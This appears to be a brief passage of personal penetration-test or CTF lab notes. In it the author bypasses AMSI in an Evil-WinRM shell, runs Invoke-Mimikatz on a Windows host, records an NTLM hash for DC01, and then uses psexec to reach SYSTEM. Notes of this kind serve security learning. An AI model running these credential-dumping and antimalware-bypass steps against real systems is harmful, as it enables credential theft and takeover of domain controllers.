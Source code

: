 `*Evil-WinRM* PS C:\Users\TEMP\Documents> Bypass-4MSI`

`*Evil-WinRM* PS C:\Users\TEMP\Documents> . .\Invoke-Mimikatz.ps1`

`C:\Users\TEMP\Documents> Invoke-Mimikatz`

![[Pasted image 20250309115746.png]]
Got NTLM for DC01 

Username: DC01 NTLM hash: 8b3b59f1f1ea316e968784411bd2c07f

I may need to crack this hash to login. How tf do i get NT/Authority from hereeee

I was being dumb. Just had to psexec

![[Pasted image 20250309143907.png]]
![[Pasted image 20250309144006.png]]

done.
